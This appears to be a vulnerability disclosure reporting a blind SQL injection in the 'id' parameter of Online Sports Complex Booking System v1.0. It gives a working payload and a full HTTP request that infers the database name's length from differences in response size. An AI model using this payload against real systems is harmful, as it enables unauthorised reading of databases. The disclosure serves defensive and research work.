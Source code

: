 # Online Sports Complex Booking System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15236/online-sports-complex-booking-system-phpmysql-free-source-code.html

Vulnerability File: /scbs/admin/?page=user/manage_user&id=

Vulnerability location: /scbs/admin/?page=user/manage_user&id=, id

Current database name: scbs_db,length is 7

[+] Payload: /scbs/admin/?page=user/manage_user&id=10%27%20and%20length(database())%20=7--+

```sql
GET /scbs/admin/?page=user/manage_user&id=10%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=gp584rjk4ugbjakmto03cu7pco
Connection: close

// Leak place ---> id
```

When length (database ()) = 6, Content-Length: 22616
![image](https://user-images.githubusercontent.com/54017627/165214529-8203f1f4-b805-4dd1-968c-2af60e5c29b5.png)

![image](https://user-images.githubusercontent.com/54017627/165214442-6f48a3a1-8d4a-40a0-85d9-55d5b9bb4f0d.png)

When length (database ()) = 7, Content-Length: 22473
![image](https://user-images.githubusercontent.com/54017627/165214489-8a678bb7-a48b-4568-9943-b4adcec17775.png)

![image](https://user-images.githubusercontent.com/54017627/165214409-8966f3d8-72ff-4a2c-b32c-7cd5e5fc4d1c.png)
